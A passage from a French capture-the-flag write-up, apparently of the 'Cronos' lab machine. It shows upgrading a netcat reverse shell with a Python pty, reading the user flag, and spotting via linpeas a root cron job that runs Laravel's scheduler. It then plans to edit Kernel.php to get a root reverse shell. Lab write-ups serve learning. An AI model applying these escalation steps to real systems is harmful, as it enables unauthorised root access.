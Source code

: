 ```bash
www-data
$ export TERM=xterm
$ python3 -V
Python 3.5.2
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ ^Z
[2]  + 27640 suspended  nc -lnvp 9001                                                                                  
[Jul 10, 2025 - 23:33:12 (CEST)] exegol-pentest Cronos # stty raw -echo;fg
[2]  - 27640 continued  nc -lnvp 9001

www-data@cronos:/var/www/admin$ whoami
www-data
www-data@cronos:/var/www/admin$ cd /home
www-data@cronos:/home$ cd noulis/
www-data@cronos:/home/noulis$ cat user.txt 
fe30.....e498
```

## www-data -> root

### laravel root crontab
En utilisant linpeas, on s'en compte que l'utilisateur **root** execute chaque minute :
> php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

```bash
╔══════════╣ Check for vulnerable cron jobs
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#scheduledcron-jobs
══╣ Cron jobs list

...

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
Grâce à ChatGPT, on comprend qu'il faut modifier le fichier **/var/www/laravel/app/Console/Kernel.php**. La fonction schedule de ce fichier est executé toutes les minutes par root. Il suffit donc d'executer une commande de reverse shell et le tour est joué.
```bash
www-data@cronos:/var/www/laravel/app/Console$ head Kernel.php -n100
<?php

namespace App\Console;

use Illuminate\Console\Scheduling\Schedule;
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;

class Kernel extends ConsoleKernel
{
    /**
     * The Artisan commands provided by your application.
     *
     * @var array
     */
```